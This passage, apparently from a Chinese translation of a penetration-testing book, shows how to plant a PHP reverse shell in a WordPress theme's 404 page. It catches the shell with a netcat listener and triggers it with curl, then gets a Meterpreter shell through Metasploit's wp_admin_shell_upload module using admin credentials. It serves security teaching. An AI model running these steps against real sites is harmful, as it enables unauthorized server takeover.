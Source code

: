 这可以如下所示：

![图 9.28 – 带有我们代码的 WordPress 主题编辑器](img/Figure_9.28_B15630.jpg)

图 9.28 – 带有我们代码的 WordPress 主题编辑器

1.  我们将以下代码放入模板中。设置`443`。此代码可以在此处找到：

[`github.com/PacktPublishing/AWS-Penetration-Testing/blob/master/Chapter%209:%20Real-Life%20Pentesting%20with%20Metasploit%20and%20More!/phpshell.php`](https://github.com/PacktPublishing/AWS-Penetration-Testing/blob/master/Chapter%209:%20Real-Life%20Pentesting%20with%20Metasploit%20and%20More!/phpshell.php)

1.  现在，我们需要在我们的 Kali Linux 主机上启动`netcat`来监听连接：

```
$ nc -lnvp 443
```

1.  现在我们需要尝试访问包含我们代码的完整 URL。我们可以使用`curl`命令来做到这一点：

```
$ curl http://<public dns>/wp-content/themes/twentytwenty/404.php
```

这将产生以下输出：

![图 9.29 – 来自我们目标主机的反向 shell](img/Figure_9.29_B15630.jpg)

图 9.29 – 来自我们目标主机的反向 shell

好的，所以我们使用了我们的精巧有效载荷获得了一个**Netcat** shell。然而，现在让我们通过获取一个**Meterpreter** shell 来简化事情！我个人觉得 Meterpreter shells 更令人愉悦，因为你可以在 Metasploit 中使用它们，并且它们具有典型 shell 所没有的额外功能。

要获得一个 Meterpreter shell，我们将在 Metasploit 中使用一个 WordPress 漏洞。我们将使用我们在评估中发现的凭据，以及我们的 AWS Kali Linux 主机来捕获传入的连接。

一旦你启动了 Metasploit，使用以下命令加载你的模块并配置它以针对主机：

```
$ use exploit/unix/webapp/wp_admin_shell_upload
$ set password admin
$ set username admin
$ set rhosts <Target Public DNS>
$ set lhost <AWS Kali Public DNS>
$ set lport 443
$ run
```

这将产生以下输出：

![图 9.30 – 来自我们目标主机的 Meterpreter 反向 shell](img/Figure_9.30_B15630.jpg)

图 9.30 – 来自我们目标主机的 Meterpreter 反向 shell

如你所见，我们已成功使用**Netcat** shell 和**Meterpreter** shell 获得了对主机操作系统的访问权限。从外观上看，这个应用程序相当不安全，并且几乎没有任何安全措施。现在我们已经完成了对这个应用程序的渗透测试，是时候继续讨论问题以及如何与他人讨论如何解决这些问题了。

## 讨论问题
